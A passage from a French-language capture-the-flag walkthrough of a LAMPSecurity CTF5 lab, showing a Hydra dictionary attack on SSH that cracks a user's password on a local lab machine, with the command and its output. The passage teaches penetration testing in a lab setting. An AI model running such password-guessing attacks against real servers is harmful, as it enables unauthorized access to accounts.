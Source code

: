 ![Affichage de l'image CTF5_NanoCMS6.png](images/CTF5_NanoCMS6.png)

C'est cool d'avoir un shell, mais ce serait tout de même bien mieux avec un autre compte Unix (sans rancune, apache).

### Attaque par dictionnaire avec Hydra sur SSH, partie 1

Pour rappel, cinq comptes Unix disposant d'un shell valide (/bin/bash) ont été trouvés dans le fichier /etc/passwd.

Pour trouver les mots de passe de Patrick, de Jennifer, d'Andy, de Loren et d'Amy, [plusieurs techniques sont possibles](https://repo.zenk-security.com/Reversing%20.%20cracking/Cracking_Passwords_Guide.pdf) : [les attaques par bruteforce](https://en.wikipedia.org/wiki/Brute-force_attack) qui consistent à tester, de manière exhaustive, toutes les combinaisons possibles ; [les attaques par dictionnaire](https://en.wikipedia.org/wiki/Password_cracking) qui consistent à tester un sous-ensemble de mots ou de combinaisons placés dans un fichier texte ; ou bien [les attaques par social engineering](https://en.wikipedia.org/wiki/Social_engineering_(security)), qui visent à accéder à des informations confidentielles par la manipulation de personnes.

L'attaque par dictionnaire avait plutôt bien fonctionné sur SquirrelMail, donc autant réutiliser l'outil-couteau-suisse Hydra.

```console
root@blinils:~# cat usersCTF5.txt
patrick
jennifer
andy
loren
amy
    
root@blinils:~# hydra -L usersCTF5.txt -P /usr/share/dict/500-worst-passwords.txt 192.168.56.101 ssh -t 10
--snip--
[DATA] attacking ssh://192.168.56.101:22/
[22][ssh] host: 192.168.56.101   login: amy   password: dolphins
1 of 1 target successfully completed, 1 valid password found
--snip--
```
